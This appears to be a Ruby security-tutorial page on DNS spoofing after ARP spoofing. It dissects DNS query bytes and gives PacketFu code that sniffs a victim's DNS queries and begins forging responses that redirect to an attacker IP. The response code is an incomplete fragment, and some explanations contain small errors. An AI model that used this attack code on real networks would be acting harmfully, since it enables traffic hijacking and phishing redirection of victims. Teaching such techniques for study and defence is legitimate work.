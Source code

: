 # DNS Spoofing
Continuing our attack through [ARP Spoofing](module_0x4__network_kungfu/arp_spoofing.md), we want to change the victim's DNS request to whatever destination we like.

### Scenario
```
                |Attacker|
                    | AttackerSite
                    ٧                      AttackerSite
|Victim| ----------/ \----------> |Router| ----------> Internet
          AnySite      AttackerSite
```
> Keep the ARP spoof attack running

The same IPs of ARP spoof attack

| Host        |   IP Address  |
|:-----------:|:-------------:|
| Attacker    | 192.168.0.100 |
| Victim      | 192.168.0.21  |
| Router      | 192.168.0.1   |



Now we cant intercept DNS Query packet coming from victim's machine. Since PacketFu supports filters in capturing (to reduce mount of captured packets) we'll use `udp and port 53 and host` filter, then we'll inspect the captured packet to ensure that it's a query then find the requested domain..........

From wireshark, if we take a deeper look at the DNS query payload in `Domain Name System (query)`, we can see its been presented in hexdecimal format.

| ![Wireshark](../images/module03/dns_spoofing_wireshark1.png) |
|:---------------:|
| **Figure 1.** DNS query Payload  |


Let's to anatomize our payload
```
0000   e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010   74 74 65 72 03 63 6f 6d 00 00 01 00 01
```
* The First 2 bytes is the **Transaction ID** and we don't care about it for now. (Our case: `\xe7\x1d`)
* The Nex 2 bytes is the **Flags**[^3]. (We need: `\x01\x00` = \x10)
* Farthermore, in **Queries** section which contains

```
0000   07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010   01
```



* The **Queries** starts at *13 byte* of the payload.
    * The13th byte specifies the length of the domain name *before* the *very first dot* (without last dot com or whatever the top domain is). (Our case: `\x07`)
        **Try:**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`
        * Notice The domain name of "twitter.com" equals `\x07` but "www.twitter.com" equals `\x03` the same consideration for subdomains
        * Each dot after first dot will be replaced with the length of the followed characters

        **e.g.** www.google.co.uk
            * First length (**www**)  => will be replaced with `\x03`
            * First dot(**.google**) => will be replaced with `\x06`
            * Second dot(**.co**)    => will be replaced with `\x02`
            * Third dot(**.uk**)     => will be replaced with `\x02`

    * The very end of the domain name string is terminated by a `\x00`.
    * The next 2 bytes refers to the **type of the query**[^4]. (Our case: `\x00\x01`)




**Now what?!**

* We need to start capturing/sniffing on specific interface
* We need to enable promiscuous mode on our interface
* We need to capture UDP packets on port 53 only
* We need parse/analyze the valid UDP packets only
* We need to make sure this packet is a DNS query
* We need to get the queried/requested domain
    * We need to know the domain length
    * We need to get the FQDN
* Build a DNS response
* Replace the requested domain with any domain we want
* Re inject the packet into victim connection and send

I'll divide our tasks then wrap it up in one script

```ruby
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1..full_length + length_offset]
    full_length   = raw_domain[0..full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

# * We need parse/analyze the valide UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    @packet = Packet.parse(pkt)

    # Make sure we have a query packet
    dns_query = @packet.payload[2..3].to_s

    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = @packet.payload[12..-1].to_s # FULL QUERY
      fqdn = readable(domain_name)

      # Ignore non query packet
      next if domain_name.nil?

      puts "DNS request for: " + fqdn
    end
  end
end
```
Till now we successfully finished [ARP Spoofing](module_0x3__network_kungfu/arp_spoofing.md) then DNS capturing but still we need to replace/spoof the original response to our domain. eg. attacker.zone, now we have to build a DNS response instead of spoofed to be sent. So what we need?

* taking the IP we are going to redirect the user to (the spoofing_ip)
    * converting it into hex using the to_i and pack functions.
* From there we create a new UDP packet using the data contained in @ourInfo (IP and MAC) and fill in the normal UDP fields.
    * I take most of this information straight from the DNS Query packet.
* The next step is to create the DNS Response.
    * the best way to understand the code here is to look at a DNS header and then
    * take the bit map of the HEX values and apply them to the header.
    * This will let you see what flags are being set.
* From here, we just calculate the checksum for the UDP packet and send it out to the target’s machine.



```ruby

spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"


```



https://github.com/SilverFoxx/Spoofa/blob/master/spoofa

Sources[^1] [^2] - The code has been modified and fixed

<br><br><br>
---
[^1]: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
[^2]: [Manipulating The Network with PacketFu](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf)
[^3]: [DNS Header Flags](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12)
|   Bit  | Flag | Description          | Reference |
|:------:|------|----------------------|-----------|
| bit 5  |  AA  | Authoritative Answer | [RFC1035] |
| bit 6  |  TC  | Truncated Response   | [RFC1035] |
| bit 7  |  RD  | Recursion Desired    | [RFC1035] |
| bit 8  |  RA  | Recursion Allowed    | [RFC1035] |
| bit 9  |      | Reserved             |           |
| bit 10 |  AD  | Authentic Data       | [RFC4035] |
| bit 11 |  CD  | Checking Disabled    | [RFC4035] |
[^4]: [DNS Lookups Types](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4)
|  Type | Value |               Description               |
|:-----:|:-----:|:---------------------------------------:|
| A     | 1     | IP Address                              |
| NS    | 2     | Name Server                             |
| CNAME | 5     | Alias of a domain name                  |
| PTR   | 12    | Reverse DNS Lookup using the IP Address |
| HINFO | 13    | Host Information                        |
| MX    | 15    | MX Record                               |
| AXFR  | 252   | Request for Zone Transfer               |
| ANY   | 255   | Request for All Records                 |
